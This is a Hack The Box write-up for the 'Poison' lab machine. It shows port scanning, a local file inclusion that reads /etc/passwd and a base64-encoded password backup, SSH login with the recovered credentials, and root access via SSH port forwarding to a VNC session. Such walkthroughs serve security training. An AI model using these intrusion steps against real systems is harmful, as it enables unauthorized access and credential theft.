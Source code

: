 # Poison

**OS:** FreeBSD

**Level:** Medium

**Links:** [1](https://www.hackthebox.com/machines/poison)  [2](https://app.hackthebox.com/machines/Poison)

**Machine ip:** 10.10.10.84

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cb79db62-10d4-4597-be41-cbf4600ee2c2)


## Enumeration
First thing first, start port scan:
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.84 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.84`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dc6230c3-bc5c-468e-821e-514f8e0828fd)

+ The result shows that 2 TCP ports are open:
```
Port 22: OpenSSH 7.2
Port 80: Apache httpd 2.4.29
```

+ Always start off with enumerating web server first.
+ Navigate to `http://10.10.10.84/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1c32c4dc-e26f-4728-ba3e-1518b918c928)

+ When entering **listfiles.php** into **Scriptname** textbox, **pwdbackup.txt** looks interesting.
+ `http://10.10.10.84/browse.php?file=listfiles.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bb8237de-e6cc-41e0-8bef-d003d7e1ae08)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a643911b-431e-4fb0-aea8-fcce9e4e28aa)

+ Enter **pwdbackup.txt** into the textbox, and you'll see base64 encoding.
+ `http://10.10.10.84/browse.php?file=pwdbackup.txt`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/755d1b04-96a4-44ce-936f-87f6ff1d3753)

+ This means that the application is vulnerable to local file inclusion (LFI).

+ And also check whether it is vulnerable to RFI.
+ Navigate to `http://10.10.10.84/browse.php?file=phpinfo.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e35caf5f-568a-40da-9480-be78f16123f4)

+ There is no direct RFI as **allow_url_include** is off. Setting allow_url_include to off in your configuration means that your PHP code on your server will not be able to include remote files.

## Gaining Access
+ Let's crack the base64 encoding of **pwdbackup.txt**.
+ The encoded form has been base64 encoded 13 times.

+ **Firstly**, crack in bash script [here](https://github.com/h4md153v63n/Bash_Scripts/tree/main/base64-multiple-decoder).

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a60378d4-e4e3-4d17-bd7f-385c8af1a0d9)

+ **Secondly**, try [python script](https://github.com/h4md153v63n/Python_Security_Codes/tree/master/base64-multiple-decoder).

+ **Third Alternative**, try this online tool: https://base64-multiple-decode.netlify.app

![image](https://github.com/h4md153v63n/Bash_Scripts/assets/5091265/27a222f4-dc74-4795-ada0-86bda6fae3b6)

+ The final resulting string is `Charix!2#4%6&8(0`, which seems like a possible password. The username is `Charix` and the password is `Charix!2#4%6&8(0`.
+ Get the users: `http://10.10.10.84/browse.php?file=/etc/passwd`
+ Discovered users: **root**, **toor** and **charix**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/00e56373-ad34-4087-a00e-7c9efcbf5fae)

+ The username:password should be `charix`:`Charix!2#4%6&8(0`
+ It belongs to Charix. Login ssh into charix account using the discovered credentials.
+ `ssh charix@10.10.10.84`
+ Get the user shell and user flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bd4b9cf9-8dee-4b01-b130-9f79a2776d93)

+ **Alternatively**, try log posining method. But it didn't work for me.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cd771766-18e8-4abb-b95f-0524b99982cf)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1bc6d871-1708-4a64-9776-58a0f7f56aa6)


## Privilege Escalation
+ There is a **secret.zip** file on charix’s home directory.
+ Unable to unzip it on the target.
+ Transfer **secret.zip** to your kali attack vm using scp.
+ `scp -P 22 charix@10.10.10.84:/home/charix/secret.zip .` with previous password `Charix!2#4%6&8(0`
+ unzip with the same password `Charix!2#4%6&8(0`: `unzip secret.zip`
+ There's no meaningful thing!

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5ec32bc7-b10c-47d6-82ee-cab8ceaf8898)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a4245b7b-e57c-496c-bf6b-08378b235a83)

+ Lists ports: `netstat -an`
+ [5801](https://www.speedguide.net/port.php?port=5801) and [5901](https://www.speedguide.net/port.php?port=5901) are VNC ports for remote desktop access.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fb6bd861-6308-44b7-b9f7-787ccd94b1d9)

+ List process of vnc: `ps -auwwx | grep vnc`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/87501dde-45a3-4f89-a68a-8618111014a6)

+ Since VNC is a graphical user interface software, we can’t access it through our target machine.
+ We need port forwarding.
+ Run on your kali attack machine with previous password `Charix!2#4%6&8(0`: `ssh -L 7777:127.0.0.1:5901 charix@10.10.10.84`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b07e577-d046-4075-9d07-93c93ddf8bff)

+ Verify that the command is working:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/473a6f5a-8495-474c-b2d1-dcb9984a49cb)

+ Connect to VNC with previous transferred and decompressed **secret** file on the attack machine: `vncviewer 127.0.0.1:7777 -passwd secret`
+ Get the VNC connection with root privileges, and view the root.txt file.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/556d55dc-b294-4080-9030-42426a5bb802)

+ **Alternatively**, crack secret file using the script [1](https://github.com/jeroennijhof/vncpwd)  [2](https://github.com/trinitronx/vncpasswd.py).
+ Then login using the decrypted password: `vncviewer 127.0.0.1:7777`


# References & Alternatives
+ https://vvmlist.github.io/#poison
+ https://medium.com/@Inching-Towards-Intelligence/htb-poison-35-100-3ac2da3ff622
+ https://www.hackingarticles.in/hack-the-box-poison-walkthrough/
+ https://www.absolomb.com/2018-09-08-HackTheBox-Poison/
+ https://0xdf.gitlab.io/2018/09/08/htb-poison.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/poison-writeup-w-o-metasploit#id-46e8
+ https://benheater.com/hackthebox-poison/
+ https://ethicalhacs.com/poison-hackthebox-walkthrough/
+ https://sanaullahamankorai.medium.com/hackthebox-poison-walkthrough-f34509cff535
+ https://manuelvazquez-contact.gitbook.io/oscp-prep/hack-the-box/poison
+ https://systemweakness.com/htb-poison-writeup-w-o-metasploit-5d3b27e25a7e
+ https://github.com/Bengman/CTF-writeups/blob/master/Hackthebox/poison.md

# More
+ **vnc pentesting:** https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc
  + https://github.com/jeroennijhof/vncpwd
  + https://github.com/trinitronx/vncpasswd.py
+ https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
  + https://www.insomniasec.com/downloads/publications/phpinfolfi.py
